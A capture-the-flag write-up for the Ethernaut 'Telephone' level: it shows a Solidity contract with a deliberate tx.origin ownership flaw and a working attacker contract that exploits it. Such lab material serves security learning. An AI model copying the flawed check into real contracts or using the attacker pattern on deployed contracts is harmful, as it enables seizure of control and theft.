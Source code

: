 # [4. Telephone](https://ethernaut.openzeppelin.com/level/0x0b6F6CE4BCfB70525A31454292017F640C10c768)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {
  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

The `tx.origin` is the address that creates the transaction, and `msg.sender` is the sender of the current message. As such, `tx.origin == msg.sender` is **true** if message sender is an ethereum account; or **false** if the message sender is a contract. So, we want `tx.origin != msg.sender` to become the owner of the target, we just need to write a contract and call that function.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Telephone { 
  function changeOwner(address _owner) external;
}

contract Attacker {
  Telephone telephoneTarget;

  constructor(address _target) {
    telephoneTarget = Telephone(_target);
  }

  function pwn() public {
    require(msg.sender == tx.origin, "Who is attacking? :D");
    telephoneTarget.changeOwner(tx.origin);
  }
}
```
